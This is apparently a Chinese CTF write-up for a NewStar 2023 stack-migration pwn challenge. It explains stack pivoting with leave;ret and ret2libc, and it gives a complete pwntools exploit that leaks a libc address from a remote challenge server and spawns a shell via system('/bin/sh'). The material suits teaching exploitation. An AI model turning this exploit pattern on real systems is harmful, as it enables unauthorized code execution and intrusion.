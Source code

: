 ```yaml
---
title: newstar2023 week2 - stack migration
date: 2023/10/5 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
thumbnail: /assets/newstar2023/legend.jpg
excerpt: 通过栈迁移和ret2libc技术利用漏洞，成功执行system函数。
---
```


## 文件分析

下载`-2`(什么魔鬼命名), NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

这道题写明了需要栈迁移：从read的参数可知，我们只能写完`prev_rbp`后只剩8字节  
而当前栈上非常空旷，有0x50个字节可用！

## 前置知识

call的时候，会向栈内压入call下面1条指令，进入函数后，会压入rbp，然后
mov rbp, rsp  
leave执行mov rsp, rbp; pop rbp，ret执行pop rip如下图所示（建议配合exp）  
![legend](/assets/newstar2023/legend.jpg)

由于rbp间接影响返回地址，所以需要运行2次`leave;ret`，这时retAddr就写`leave;ret`的地址

## 思路

将栈迁移过来后，按ret2libc思路做即可

这里使用LibcSearcher，主要是方便本机调试，各位完全可以用提供的libc里的地址

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 25434)

# payload 1
sh.sendlineafter(b'name:', b'0'*7) # 这里不能输8个字符，否则换行符会落到下面导致payload 2发送出现问题
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16 # leak name addr; shift it to $rbp - 0x50

elf = ELF('minus2')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x401333
vulnAddr = 0x4011fb
retAddr = 0x4012ab
leaveRetAddr = 0x4012a9
# print(hex(space)) # for dbg

# payload 2
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))
# note that a \n will be left and we must comment the send below
# payload structure: [buf | space <- payload (0x48B) | prev_rbp | retAddr]

sh.recvuntil(b'soon!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')

# sh.sendlineafter(b'name:', b'0'*5) # affected by the '\n' leftover; the name is '\n'
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16
# print(hex(space)) # for dbg

# payload 3
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
